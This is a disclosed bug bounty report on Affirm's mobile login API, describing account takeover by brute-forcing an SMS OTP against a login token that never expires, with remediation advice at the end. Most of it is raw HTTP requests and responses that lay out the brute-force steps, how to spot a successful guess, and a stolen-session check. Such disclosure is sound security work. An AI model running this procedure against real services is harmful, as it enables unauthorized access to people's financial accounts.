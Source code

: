 # Absence of Token expiry leads to Unauthorized login Access

## Report Details
- **Report ID**: 766578
- **URL**: https://hackerone.com/reports/766578
- **State**: Closed
- **Severity**: critical
- **Submitted**: 2019-12-31T19:28:39.154Z
- **Disclosed**: 2020-12-01T00:09:45.558Z

## Reporter
- **Username**: yogesh_ojha
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: affirm

## Vulnerability Information
### Summary
While doing the testing for the mobile app, I observed out that it is possible to bypass the authentication and gain unauthorized access to the user's account bu brute-forcing the PIN due to lack of login token expiry.

The way affirm mobile login works is that,

User inputs the phone number
It then makes a call to an API endpoint /api/v3/login/phone/
```
POST /api/v3/login/phone/ HTTP/1.1
Content-Type: application/json; charset=UTF-8
Content-Length: 40
Host: hackerone.affirm-odin.com
Connection: close
Accept-Encoding: gzip, deflate
User-Agent: okhttp/3.13.1
Affirm-User-Agent: Affirm-Android

{"channel":"sms","address":"7022170000"}
```

This endpoint /api/v3/login/phone/ in turn generates a token and sends in the response.
The response looks something similar to this

```
HTTP/1.1 200 OK
Date: Tue, 31 Dec 2019 11:53:27 GMT
Content-Type: application/json
Connection: close
Server: openresty
Vary: Accept-Encoding
Affirm-Device: XXX=
Affirm-Client: XXXX-
cache-control: private, no-cache, no-store, must-revalidate
X-Affirm-Request-Id: a3bcdedb-0e18-4760-c796-1cd60158f86c
Strict-Transport-Security: max-age=86400
Content-Length: 299

{"response_url": "/api/v3/login/phone/SOMETOKEN"}
```

Another call to the api is made to the URL obtained from the above response_url This API request looks like this

```
POST /api/v3/login/phone/SOMETOKEN HTTP/1.1
Content-Type: application/json; charset=UTF-8
Content-Length: 19
Host: hackerone.affirm-odin.com
Connection: close
Accept-Encoding: gzip, deflate
Affirm-User-Agent: Affirm-Android
Affirm-App-Version: 3.62.3
Affirm-App-Version-Code: 312
Affirm-OS-Version: 22

{"response":"0000"}
```

Since SOMETOKEN in the above request doesn't get expired, this request can be sent to Intruder or similar tools to brute force the response OTP parameter.
Once the response is valid, this can be verified by the 200 status obtained in the response and the length of the response.
Like this,
{F672314}

The response will be

```
HTTP/1.1 200 OK
Date: Tue, 31 Dec 2019 12:30:58 GMT
Content-Type: application/json
Connection: close
Server: openresty
Vary: Accept-Encoding
Affirm-Device: eyJkZXZpY2VfaWQiOiAiZDk3NTcyNTQtYmZkNS00NGFiLWE1ZjQtMTk3YzI2NzhjMTQyIn0=
Affirm-Client: .eJyrVkrOzytJrSiJTyzKVLJSMjV2Cg80MDMJNwy39HCycFfSUSotTi1SsqpWyslPz8yLL04tLs7Mz8OlvLYWAD8TGa8.EOzRAg.KdnFWXFpkJrsLXazTxNyjxb5Jtk
cache-control: private, no-cache, no-store, must-revalidate
X-Affirm-Request-Id: dc1a2835-e8bc-4f0e-cf08-05c50c942eca
Strict-Transport-Security: max-age=86400
Content-Length: 109

{"status": "authenticated", "token": null, "user_id": "1479-5770-XGGL", "expiration": "3019-12-31T17:17:38Z"}
```

This response contains Affirm-Client which is like a session ID, later used to make a request.

To verify if this is the actual session ID or not, this can be done by making a request to the api

```
GET /api/v2/users/1479-5770-XGGL HTTP/1.1
Host: hackerone.affirm-odin.com
Connection: close
Accept-Encoding: gzip, deflate
User-Agent: okhttp/3.13.1
Affirm-Client: .eJyrVkrOzytJrSiJTyzKVLJSMjV2Cg80MDMJNwy39HCycFfSUSotTi1SsqpWyslPz8yLL04tLs7Mz8OlvLYWAD8TGa8.EOzRAg.KdnFWXFpkJrsLXazTxNyjxb5Jtk
Affirm-Platform: android
Affirm-User-Agent: Affirm-Android
Affirm-App-Version: 3.62.3
Affirm-App-Version-Code: 312
Affirm-OS-Version: 22
```

The user ID can also be obtained from the above response.

If the Affirm-Client is valid, then you would get the user details on this endpoint which would confirm this vulnerability.

```
{"phone_number": {"phone_number": "+1-702-217-0000", "user_id": "1479-5770-XGGL", "id": "CNAIG0U1BMPHN5BK"}, "status": "ACTIVE", "name": {"last": "NEPAK", "full": "TESTING NEPAK", "user_id": "1479-5770-XGGL", "id": "4ZBC33TYEY12SOWP", "first": "TESTING"}, "is_personalized_services_active": true, "created": "2019-12-31T10:48:00Z", "dob": "1980-06-23", "id": "1479-5770-XGGL", "address_confirmation_status": "not confirmed", "address": {"city": "San Francisco", "user_id": "1479-5770-XGGL", "is_po_box": false, "street1": "325 Pacific Ave", "region1_code": "CA", "is_military_address": false, "postal_code": "94111", "country_code": "USA", "id": "G2YM6ESBLH36ETLZ"}, "user_consented_to_lto": null, "email": {"verified": false, "user_id": "1479-5770-XGGL", "email": "who_has_no_name+0000@wearehackerone.com", "id": "B9SUH5XOB1559Q8J"}}
```
{F672319}

### Remediation
Rate limiting could be one of the fundamental solutions by limiting the number of the wrong OTP a user can submit.
The fundamental problem here is not that OTP is possible for Bruteforce, but the lack of token expiry generated for login purpose.

Luckily, there is a better way for this. When the user enters the number, and a password login URL/login is generated on the endpoint https://hackerone.affirm-odin.com/api/v3/login/phone/, the URL could be set invalid after a few OTP limits.

Once this is set to expiry, then to make another consecutive request to the endpoint https://hackerone.affirm-odin.com/api/v3/login/phone/SOMETOKEN would be automatically invalid. This should be done without even checking OTP to prevent brute-forcing. The login token generation on the endpoint https://hackerone.affirm-odin.com/api/v3/login/phone/ should be limited.

POC Video
{F672564}
-Happy New year team Affirm <3

## Impact

Unauthorized account access, Account takeover

## Attachments
- 1.PNG
- 2.PNG
- Screen_Recording_2020-01-01_at_12.47.37_AM.mov
